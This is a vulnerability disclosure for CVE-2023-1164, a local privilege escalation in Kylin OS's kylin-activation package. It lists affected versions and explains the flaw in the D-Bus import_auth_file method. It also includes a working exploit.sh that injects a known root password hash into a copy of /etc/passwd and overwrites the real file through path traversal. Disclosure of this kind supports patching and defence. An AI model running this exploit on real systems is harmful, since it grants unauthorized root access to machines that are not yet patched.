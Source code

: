 # Kylin OS privilege escalation vulnerability

Author: Set3r.Pan（8691003@qq.com）\
Unit: Kylin Software Co., Ltd.（https://www.kylinos.cn/）

### CVE ID
CVE-2023-1164
## Report
### Describe

The kylin-activation package is a component used by Kylin OS for authorization verification and activation. The software package does not strictly restrict the legality of the import file operation, so the directory where the system configuration file is located is imported into an illegal configuration file, resulting in the elevation of local privileges of ordinary users.


### Hazard level
High
### Affected version
- Desktop：kylin-activation < 1.3.11-23
- Server：kylin-activation < 1.30.10-5.p23
### POC&&EXP
ISO Download:\
https://distro-images.kylinos.cn:8802/web_pungi/download/share/HXDYtGjZm3daA4UvOTLkiPl1nB9ErM0c/

exploit.sh
```
echo "[*] Trying to overwrite passwd file ..."
cp /etc/passwd /tmp/passwd
sed -i 's/root:x:0:0:root/root:\$1\$nrDGqnHa\$EhGl0D2EBPmnQTC2hGvgl.:0:0:root/g' /tmp/passwd
dbus-send --system --dest=org.freedesktop.activation /org/freedesktop/activation org.freedesktop.activation.interface.import_auth_file string:../tmp/passwd
sleep 1
dbus-send --system --dest=org.freedesktop.activation /org/freedesktop/activation org.freedesktop.activation.interface.import_auth_file string:../tmp/passwd
sleep 1
echo '[*] Try login with root / 123qwe!@#QWE'
```
Run as a low-privileged user on the target OS:

<img width="515" alt="image" src="https://user-images.githubusercontent.com/35441986/223699923-d87d24fe-2cad-4999-983b-d3b76d70624e.png">

First, use the head -n 1 command to check the first line of /etc/passwd and find that it is normal：
```
root:x:0:0:root
```
Then, after running the exploit.sh script, recheck the content of the first line of /etc/passwd again, and found that it has been exploited successfully, and /etc/passwd has been replaced with the content controlled by the attacker. Then use the account password output by the script, use the su command, and find that the authority has been successfully raised to root authority.

### Vuln details
org.freedesktop.activation::import_auth_file receive files

<img width="700" alt="image" src="./imgs/CVE-2023-1164_1.png">

If the file exists, the service copies the file to /etc, causing arbitrary files to be written in the /etc directory

<img width="700" alt="image" src="./imgs/CVE-2023-1164_2.png">

